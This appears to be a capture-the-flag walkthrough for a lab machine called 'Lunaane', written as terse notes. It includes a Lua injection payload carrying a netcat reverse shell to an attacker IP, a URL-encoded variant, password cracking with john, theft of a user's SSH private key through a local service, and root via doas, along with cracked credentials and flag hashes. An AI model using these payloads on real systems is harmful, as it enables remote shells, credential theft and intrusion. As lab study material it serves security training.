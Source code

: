 # Lunaane

### SCAN
 - nmap/intial

### Enum
```
http://{EXPORT_IP}/weather/forecast?city=list
```

### Reverse Shell Payload
```
[BASH PAYLOAD]
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.82 4444 >/tmp/f

lua -e 'os.execute("/bin/sh")'

[Payload]
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.82 4444 >/tmp/f")--

[Payload URL Encoding]
http://10.10.10.218/weather/forecast?city=London%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.110%204444%20%3E%2Ftmp%2Ff%22%29%27
```

### Crack the Password
```
1. Read .htpasswd
2. webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
3. john --wordlist=rockyou.txt hash
```
 - webapi_user:iamthebest

### Local Enume
```
1. netstat -ant
2. 127.0.0.1 3000 LISTEN <<
3. curl --user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
4. SAVED_id_rsa << local
```

### USER Reverse Shell
```
1. ssh -i id_rsa r.michaels@10.10.10.218
2. ea5f0ce6a917b0be1eabc7f9218febc0
```

### Privilige Escalation
```
1. /backups/devel_backup-2020-09-16-tar.gz.enc
- which "netpgp" -> /usr/bin/netpgp

2. netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc  --output=/tmp/backups.tar.gz 

3. cat /www/.htpasswd 

4.john --wordlist=rockyou.txt hash
```
 - webapi_user2:littlebear
```
5. Net Free Bsd Sudo >  doas su

6. 7a9b5c206e8e8ba09bb99bd113675f66
```